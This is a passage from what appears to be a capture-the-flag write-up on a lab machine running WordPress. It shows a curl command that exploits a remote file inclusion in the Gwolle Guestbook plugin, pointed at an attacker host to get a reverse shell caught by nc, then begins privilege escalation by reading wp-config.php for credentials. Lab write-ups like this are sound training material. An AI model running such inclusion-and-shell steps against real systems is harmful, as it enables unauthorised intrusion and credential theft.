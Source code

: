 ![](./IMG/30.png)
- curl to poke the wp vulnerable point
```
curl http://10.129.1.185/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.17.145:9797/
```

![](./IMG/31.png)
- Then Check the nc listener, it will get the shell back
- But the permission only web user (www-data)

![](./IMG/32.png)

### Privilege Escalation to normal user 

- Check the user directory in ```/home ```
- Since I only have www-data permission, so I can't access to onuma directory

![](./IMG/33.png)
- Check wp-config file 
```
cat wp-config.php
```

